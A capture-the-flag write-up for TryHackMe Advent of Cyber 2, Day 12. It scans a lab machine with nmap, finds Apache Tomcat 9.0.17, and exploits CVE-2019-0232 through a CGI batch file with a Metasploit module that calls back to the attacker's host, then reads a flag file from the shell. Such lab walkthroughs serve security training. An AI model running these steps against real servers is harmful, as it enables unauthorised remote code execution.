# **_aventofcyber2 Day 12 (exploit)_**

    https://tryhackme.com/room/adventofcyber2
------------------------------------------------------------


`Do simple nmap scan `

    nmap -sV -A {machine IP} -Pn



`we got tons of info`
`we can see on port 8080 webserver is running and also we got version number `



    9.0.17
------------------------------------------------------------
`Let's visit webserver`
`{machine IP:8080}`



`Let's see exploit for Apache Tomcat on exploit-db`



`we got our answer` 



    CVE-2019-0232
------------------------------------------------------------
`now open Metasploit`

    msfconsole 

`and search for the the exploit with CVE number`

    search 2019-0232



`type (use 0) `

`now set RHOSTS and LHOST and targeturi `

    set RHOSTS {machine IP}
    set LHOST tun0
    set target uri /cgi-bin/elfwhacker.bat
    run



`you should know why i used cgi-bin path if you have went through theory`



`we did this question`

------------------------------------------------------
`now type shell command on msf terminal `

`type dir to see directories as this is windows machine`



`as you can see there is flag1.txt file`

`now type below command to read it`
    
    type flag1.txt



`we also got out last answer`



---------------------------------------------------------------

_**Thank You**_